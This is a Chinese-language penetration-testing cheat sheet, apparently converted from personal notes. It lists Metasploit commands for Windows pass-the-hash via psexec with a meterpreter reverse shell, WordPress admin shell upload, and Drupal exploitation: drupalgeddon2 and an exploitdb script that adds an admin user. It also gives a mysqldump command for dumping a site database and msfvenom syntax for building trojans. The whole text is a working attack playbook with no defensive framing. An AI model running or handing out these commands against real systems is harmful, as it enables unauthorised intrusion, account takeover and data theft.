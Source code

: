 **windows传递哈希值提权**

root@bt:\~# msfconsolemsf \> use windows/smb/psexec

exploit(psexec) \> set payload windows/meterpreter/reverse_tcp

exploit(psexec) \> set LHOST 192.168.1.116

exploit(psexec) \> set RHOST 192.168.1.117

exploit(psexec) \>set SMBUser administrator

exploit(psexec) \> set SMBPass
1AA818381E4E281BAAD3B435B51404EE:5F18A8499CDD4F43D89424AD39CE9AF7

**WordPress**：

仅需要知道后台密码和用户可以开启msfconsole

搜索wp_admin_shell 调用exploit/unix/webapp/wp_admin_shell_upload

设置端口，用户名，密码，run就可以拿到

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image82.png){width="5.760416666666667in"
height="3.2600568678915134in"}

**drupal**

Drupal 7.54漏洞：

Drupal核心远程代码执行漏洞CVE-2018-7600

攻击脚本适用于7.31以下，所以适合7.24版本,可以利用漏洞增加admin权限用户

增加有admin权限的用户：admin1/admin1

python /usr/share/exploitdb/exploits/php/webapps/34992.py -t
<http://192.168.0.100> -u admin1 -p admin1

远程代码执行漏洞

msf

exploit/unix/webapp/drupal_drupalgeddon2

Drupal CMS最严重的安全漏洞之一

碰到drupal可以试试

drupal的数据库配置文件：/sites/default/settings.php（有用户名密码）

mysql拖库前提有数据库用户名和密码

mysqldump -uadmin -padmin drupal \> drupal.sql然后再下载

**msfvenom 木马**

msfvenom简单制作：

简单型：msfvenom --p \<payload\> \<payload options\>（攻击载荷）
LHOST=攻击机IP LPORT=监听端口 -f \<format\>（后缀类型） -o
\<path\>（生成文件名） （使用msfvenom -l payloads
可查看所有可以执行payload载荷 ）
